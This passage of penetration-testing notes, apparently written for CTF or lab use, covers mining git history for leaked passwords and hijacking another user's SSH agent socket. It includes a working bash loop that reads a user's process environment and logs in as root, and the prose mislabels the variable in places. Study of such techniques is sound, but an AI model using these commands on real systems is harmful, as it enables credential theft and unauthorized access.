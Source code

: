 ### Git Repositories

We can find git repositories with:

```
find \-type f 2>/dev/null | grep ".git"
```

Sometimes, you will be able to see folders that contain a `.git` folder in them. That means that the folder is a git repository. **GIT** saves all the history of defiles changes, as an attacker, we can enumerate and see if developers have made mistakes.

```
git log
```

Sometimes some logs may be hidden, for this we can use reflog:

```
git reflog
```

We can use the parameter `-p` to look at the differences made in a commit:

```
git log -p <ID>
```

Alternatively, we can use diff:

```
git diff <ID>
```

Alternatively, we can just go to the .git/log directory and do something like the following:

```bash
for i in $(cat HEAD | awk -F " " '{print $1}' ); do git show $i | grep passw | awk -F '=' '{print $NF}'; done 2>/dev/null
```

### SSH Agent Hijacking

We need to set the environment variable SSH\_SOCK\_AUTH to the agent file, and then just ssh:

```bash
while true; do
    export pid=$(ps -u kaneki_adm | grep ssh$ | tr -s ' ' | cut -d' ' -f2);
    if [ ! -z $pid ]; then
        echo "[+] Found pid for kaneki_adm ssh process: $pid";
        export SSH_AUTH_SOCK=$(su kaneki_adm -c 'cat /proc/${pid}/environ' | sed 's/\x0/\n/g' | grep SSH_AUTH_SOCK | cut -d'=' -f2);
        echo "[+] Found ssh auth socket: $SSH_AUTH_SOCKET";
        echo "[*] sshing to target";
        ssh root@172.18.0.1 -p 2222;
        break;
    fi;
    sleep 5;
done
```
